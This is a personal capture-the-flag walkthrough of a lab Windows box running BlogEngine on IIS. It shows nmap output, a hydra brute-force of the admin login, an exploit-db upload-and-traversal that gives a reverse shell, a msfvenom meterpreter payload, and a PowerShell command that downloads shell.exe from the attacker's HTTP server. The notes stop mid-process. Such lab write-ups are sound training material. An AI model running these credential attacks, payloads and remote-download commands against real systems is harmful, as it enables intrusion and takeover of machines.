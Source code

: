┌─[✗]─[user@parrot]─[~/Desktop]
└──╼ $nmap -A --script vuln -T4 -p- -oN allports.nmap 10.10.50.232
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 23:45 UTC
Nmap scan report for 10.10.50.232
Host is up (0.099s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| vulners: 
|   cpe:/a:microsoft:internet_information_services:8.5: 
|_    	CVE-2014-4078	5.1	https://vulners.com/cve/CVE-2014-4078
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.50.232
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.50.232:80/
|     Form id: aspnetform
|     Form action: /
|     
|     Path: http://10.10.50.232:80/archive
|     Form id: aspnetform
|     Form action: /archive
|     
|     Path: http://10.10.50.232:80/Account/login.aspx?ReturnURL=/admin/
|     Form id: form1
|     Form action: login.aspx?ReturnURL=%2fadmin%2f
|     
|     Path: http://10.10.50.232:80/category/BlogEngineNET
|     Form id: aspnetform
|     Form action: /category/BlogEngineNET
|     
|     Path: http://10.10.50.232:80/post/welcome-to-hack-park
|     Form id: aspnetform
|_    Form action: /post/welcome-to-hack-park
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/8.5
| http-enum: 
|   /calendar/cal_search.php: ExtCalendar
|   /robots.txt: Robots file
|   /calendar/cal_cat.php: Calendarix
|   /archive/: Potentially interesting folder
|   /archives/: Potentially interesting folder
|   /author/: Potentially interesting folder
|   /contact/: Potentially interesting folder
|   /contacts/: Potentially interesting folder
|   /search/: Potentially interesting folder
|_  /search-ui/: Potentially interesting folder
3389/tcp open  ssl/ms-wbt-server?
| ssl-dh-params: 
|   VULNERABLE:
|   Diffie-Hellman Key Exchange Insufficient Group Strength
|     State: VULNERABLE
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups
|       of insufficient strength, especially those using one of a few commonly
|       shared groups, may be susceptible to passive eavesdropping attacks.
|     Check results:
|       WEAK DH GROUP 1
|             Cipher Suite: TLS_DHE_RSA_WITH_AES_256_GCM_SHA384
|             Modulus Type: Safe prime
|             Modulus Source: RFC2409/Oakley Group 2
|             Modulus Length: 1024
|             Generator Length: 1024
|             Public Key Length: 1024
|     References:
|_      https://weakdh.org
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 542.87 seconds


went to login page on target p80

attempting hydra attack because there was no lockout on guessing account logins

![[Pasted image 20250312201831.png]]

Pictured is how we got a sample post request

tried adding the LOGIN FAILED to the raw http post form request pictured on the right side of the img

└──╼ $hydra -l admin -P ~/Desktop/rockyou.txt "http-form-post://10.10.50.232/Account/login.aspx:UserName=^USER^&Password=^PASS^:failed"hydra -l admin -P ~/Desktop/rockyou.txt 10.10.50.232 http-form-post "/Account/login.aspx:__VIEWSTATE=dwWigH2HwYppps9w0yZ2d61P5tM9P%2BTi0FrSFaPkbtlV7s%2B4s%2BkMK9Kx9WcV99LBX5O2f9mVWreJGSmpXdAXXMl56oS7q0fw2HJCa%2BAOr0QwOAv9eWZT2DIJ5gJzGn3DC%2FabWQPmr%2BaZ7GRdAnSgWkJm%2BXN8F7eKQblatXMLgKi7Dns1&__EVENTVALIDATION=ROJn36R%2BB83ZdfY3SviWKc7ZPoUD4GxfbY6lJyZmMlTb%2F8m%2FGk%2FnQx7qvfoMBMbZA9K%2BkaolQRm5nSDxm2WGGWmzVC3CSEEC%2Fd%2BjNBjHiuwAMO%2BapPlLKh323oM8fjV%2BUTmRvYyPF6rldGfKDnGxItQAJGKDye1EABk871zVTq9iEEeW&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-13 00:57:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.50.232:80/Account/login.aspx:UserName=^USER^&Password=^PASS^:failedhydra
[80][http-post-form] host: 10.10.50.232   login: admin   password: 12345
[80][http-post-form] host: 10.10.50.232   login: admin   password: 123456789
[80][http-post-form] host: 10.10.50.232   login: admin   password: password
[80][http-post-form] host: 10.10.50.232   login: admin   password: iloveyou
[80][http-post-form] host: 10.10.50.232   login: admin   password: princess
[80][http-post-form] host: 10.10.50.232   login: admin   password: 1234567
[80][http-post-form] host: 10.10.50.232   login: admin   password: 12345678
[80][http-post-form] host: 10.10.50.232   login: admin   password: nicole
[80][http-post-form] host: 10.10.50.232   login: admin   password: babygirl
[80][http-post-form] host: 10.10.50.232   login: admin   password: monkey
[80][http-post-form] host: 10.10.50.232   login: admin   password: lovely
[80][http-post-form] host: 10.10.50.232   login: admin   password: jessica
[80][http-post-form] host: 10.10.50.232   login: admin   password: 123456
[80][http-post-form] host: 10.10.50.232   login: admin   password: rockyou
[80][http-post-form] host: 10.10.50.232   login: admin   password: abc123
[80][http-post-form] host: 10.10.50.232   login: admin   password: daniel
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-13 00:57:59
┌─[user@parrot]─[~]


unfortunately the 16 passwords hydra returned didnt get us a login

we missed the ?ReturnURL=/admin part to make it not return every attempt

┌─[user@parrot]─[~]
└──╼ $hydra -l admin -P ~/Desktop/rockyou.txt 10.10.50.232 http-form-post "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=dwWigH2HwYppps9w0yZ2d61P5tM9P%2BTi0FrSFaPkbtlV7s%2B4s%2BkMK9Kx9WcV99LBX5O2f9mVWreJGSmpXdAXXMl56oS7q0fw2HJCa%2BAOr0QwOAv9eWZT2DIJ5gJzGn3DC%2FabWQPmr%2BaZ7GRdAnSgWkJm%2BXN8F7eKQblatXMLgKi7Dns1&__EVENTVALIDATION=ROJn36R%2BB83ZdfY3SviWKc7ZPoUD4GxfbY6lJyZmMlTb%2F8m%2FGk%2FnQx7qvfoMBMbZA9K%2BkaolQRm5nSDxm2WGGWmzVC3CSEEC%2Fd%2BjNBjHiuwAMO%2BapPlLKh323oM8fjV%2BUTmRvYyPF6rldGfKDnGxItQAJGKDye1EABk871zVTq9iEEeW&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-13 01:10:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.50.232:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=dwWigH2HwYppps9w0yZ2d61P5tM9P%2BTi0FrSFaPkbtlV7s%2B4s%2BkMK9Kx9WcV99LBX5O2f9mVWreJGSmpXdAXXMl56oS7q0fw2HJCa%2BAOr0QwOAv9eWZT2DIJ5gJzGn3DC%2FabWQPmr%2BaZ7GRdAnSgWkJm%2BXN8F7eKQblatXMLgKi7Dns1&__EVENTVALIDATION=ROJn36R%2BB83ZdfY3SviWKc7ZPoUD4GxfbY6lJyZmMlTb%2F8m%2FGk%2FnQx7qvfoMBMbZA9K%2BkaolQRm5nSDxm2WGGWmzVC3CSEEC%2Fd%2BjNBjHiuwAMO%2BapPlLKh323oM8fjV%2BUTmRvYyPF6rldGfKDnGxItQAJGKDye1EABk871zVTq9iEEeW&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.50.232   login: admin   password: 1qaz2wsx
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 14 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-13 01:11:52
┌─[user@parrot]─[~]
└──╼ $

1qaz2wsx PASSWORD BANG

![[Pasted image 20250312212858.png]]

After logging in with harvested creds

3.3.6.0 blogengine has an exploit at https://www.exploit-db.com/exploits/46353

downloaded, changed local IP to match my machine

┌─[user@parrot]─[~/Desktop]
└──╼ $vim 46353.cs 

┌─[user@parrot]─[~/Desktop]
└──╼ $msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.23.80.154 LPORT=9001 -f exe > shell.exe

got tired at 10pm and logged off

picked up the next day at 8pm

this time realized I read the https://www.exploit-db.com/exploits/46353 post better and understood that I needed to change the 46353 payload to a .ascx extension and upload it to the webserver then perform a directory traversal to http://10.10.217.238?theme=../../App_Data/files to initiate my shell on the netcat listener I setup with

sudo nc -lvnp 443

I then had a reverse shell 

┌─[✗]─[user@parrot]─[~]
└──╼ $sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.23.80.154] from (UNKNOWN) [10.10.217.238] 49248
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
dir
c:\windows\system32\inetsrv>dir

we then setup an http server on our parrot with

┌─[✗]─[user@parrot]─[~]
└──╼ $python -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...


and invoked the PS command on the webserver via the reverse shell:
powershell -c "Invoke-WebRequest -Uri 'http://10.23.80.154:8181/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"

then started a meterpreter session in msfconsole that grabs this info

so the usual LHOST 10.10.80.154, LPORT 9001,  set PAYLOAD windows/meterpreter/reverse_tcp

┌─[user@parrot]─[~/Desktop]
└──╼ $msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.23.80.154 LPORT=9001 -f exe > shell.exe